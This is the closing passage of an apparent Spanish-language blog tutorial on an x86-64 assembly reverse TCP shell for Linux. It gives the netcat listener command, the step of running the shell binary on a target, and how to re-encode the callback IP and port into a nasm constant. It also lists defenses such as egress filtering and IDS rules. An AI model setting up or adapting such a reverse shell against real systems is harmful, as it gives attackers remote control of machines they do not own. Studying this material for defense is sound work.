 ### En la máquina atacante:

```bash
nc -lvnp 4444
```

### En la máquina objetivo:

```bash
./reverse_tcp
```

Si todo funciona correctamente, obtendrás una shell interactiva en el listener de netcat.

---

## Modificaciones y Personalización

Para adaptar esta reverse shell a tu entorno:

1. **Cambiar IP destino:** Modifica el valor `0x8d12a8c0` (192.168.18.141 en big-endian)
2. **Cambiar puerto:** Modifica `0x5c11` (4444 en big-endian)

**Ejemplo:** Para conectar a `10.0.0.1:8080`:
- IP: `10.0.0.1` → `0x0100000a` (big-endian)
- Puerto: `8080` → `0x1f90` (big-endian)
- Valor completo: `0x0100000a1f900002`

```nasm
mov r10, 0x0100000a1f900002
```

---

## Consideraciones de Seguridad

⚠️ **Disclaimer:** Este código es **exclusivamente educativo**. Su uso malicioso es **ilegal** y puede acarrear consecuencias penales graves.

**Defensa contra reverse shells:**
- Firewalls de salida (egress filtering)
- Monitoreo de conexiones salientes inusuales
- IDS/IPS con reglas para detectar patrones de shells
- SELinux/AppArmor para restringir `execve()` y `connect()`
- Análisis de procesos que llaman syscalls sospechosas

---

## Conclusión

Esta reverse shell demuestra la potencia de las syscalls directas: en menos de 60 líneas de assembly, hemos construido un canal bidireccional completamente funcional. Entender estos fundamentos es crucial tanto para desarrollar exploits como para defenderse de ellos.

En futuros posts exploraremos:
- Técnicas de evasión (cifrado del tráfico, ofuscación)
- Bind shells y su comparativa
- Inyección de shellcode en procesos remotos
- Bypass de ASLR y DEP

¡Gracias por leer! Si tienes preguntas o sugerencias, no dudes en contactarme.

---

**Tags:** #assembly #x86-64 #syscalls #reverse-shell #security #linux #low-level